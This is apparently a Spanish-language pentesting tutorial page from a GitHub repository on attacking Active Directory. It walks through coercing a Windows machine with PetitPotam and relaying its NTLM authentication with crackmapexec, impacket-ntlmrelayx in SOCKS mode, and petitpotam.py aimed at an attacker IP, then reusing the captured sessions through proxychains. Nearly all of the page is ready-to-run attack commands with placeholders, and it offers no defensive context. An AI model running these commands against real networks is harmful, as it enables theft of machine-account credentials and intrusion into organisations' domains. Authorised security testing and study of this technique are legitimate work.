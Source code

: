 # Coaccionar a la víctima con PetitPotam

Si la vítima es vulnerable a petit potam podemos capturar las credenciales de la cuenta del equipo utilizando la técnica de NTLM RELAY:
[NTLM_relay](no_credentials/NTLM_relay/)

```Bash
# Obtener dispositivos con el SMB sin firmar
poetry run crackmapexec smb <rango ip> --gen-relay-list <output equipos relay>
# Ejecutar ntlmrelayx con socks para capturar y guardar la autenticación # La opción smb2support es cuando los objetivos son equipo actuales como windows 10 o Windoows server 2019
impacket-ntlmrelayx -tf <output equipos relay> -of netntlm -smb2support -socks
# Insertar el comando "socks" en la misma terminal para obtener las autenticaciones capturadas
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/files/petitpotam1.png?raw=true "NTLM relay petitpotam")

```Bash
# Comprobar si la víctima es vulnerable a petitpotam con crackmapexec
poetry run crackmapexec smb <Rango IP> -M petitpotam
# Ejecutamos petitpotam del repositorio de Github: https://github.com/topotam/PetitPotam
python petitpotam.py <IP atacante> <DNS del equipo vísctima>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/files/petitpotam2.png?raw=true "petitpotam")

Resultado: (para ver las sesiones escribir "socks")

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/files/petitpotam3.png?raw=true "NTLM relay petitpotam")

Utilizar las sesiones con proxychain como se muestra en elste punto:

[NTLM Relay](/no_credentials/NTLM_relay//README.md#Redirigir-las-credenciales)
